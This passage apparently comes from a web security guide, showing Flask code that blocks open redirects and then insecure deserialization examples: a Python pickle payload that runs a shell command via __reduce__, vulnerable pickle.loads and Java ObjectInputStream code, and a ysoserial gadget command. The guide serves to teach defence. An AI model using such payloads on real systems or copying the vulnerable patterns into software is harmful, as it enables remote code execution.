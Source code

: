 ### Prevention

```python
from urllib.parse import urlparse

ALLOWED_DOMAINS = ['example.com', 'app.example.com']

@app.route('/redirect')
def redirect_url():
    url = request.args.get('url', '/')
    
    # Only allow relative URLs
    if url.startswith('/') and not url.startswith('//'):
        return redirect(url)
    
    # Or validate domain
    parsed = urlparse(url)
    if parsed.netloc in ALLOWED_DOMAINS:
        return redirect(url)
    
    return abort(400, "Invalid redirect URL")
```

## 🔓 Insecure Deserialization

### Attack Examples

**Python Pickle:**
```python
# Malicious pickle payload
import pickle
import os

class EvilClass:
    def __reduce__(self):
        return (os.system, ('whoami',))

payload = pickle.dumps(EvilClass())
# Send payload to vulnerable application

# Vulnerable code:
data = pickle.loads(user_input)  # DANGEROUS!
```

**Java Deserialization:**
```java
// Vulnerable code
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();  // DANGEROUS!

// Tools: ysoserial
java -jar ysoserial.jar CommonsCollections1 'calc' | base64
```
